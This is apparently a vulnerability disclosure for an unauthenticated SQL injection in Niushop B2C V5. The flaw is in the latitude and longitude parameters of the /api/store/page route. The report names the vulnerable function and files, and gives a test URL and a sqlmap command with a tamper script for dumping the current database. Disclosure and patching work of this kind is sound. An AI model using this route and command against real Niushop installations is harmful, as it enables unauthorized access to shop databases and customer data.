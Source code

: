 ### A SQL injection vulnerability exits inNiushop V5

Official website：https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version：V5

Route：/api/store/page?latitude=1&longitude=1

Injection parameters：latitude and longitude

#### 1.Vulnerability analysis

In the **getLocationStoreList** function in niushop_b2c_v5-master/niushop/app/model/store/Store.php, the native SQL statement concatenates $lnglat[ 'lng' ] and $lnglat[ 'lat' ].

![image-20250218145237300](.\assets\image-20250218145237300.png)

And niushop_b2c_v5-master/niushop/app/api/controller/Store.php calls this method.

![image-20250218145245956](.\assets\image-20250218145245956.png)

The vulnerability condition can be triggered without logging in.

#### 2.Vulnerability verification and exploitation

https://127.0.0.1/api/store/page?latitude=1&longitude=1

sqlmap --batch --tamper=space2comment -r post.txt -- current-db

![image-20250218145310991](.\assets\image-20250218145310991.png)

![image-20250218145317558](.\assets\image-20250218145317558.png)

![image-20250218145332706](.\assets\image-20250218145332706.png)
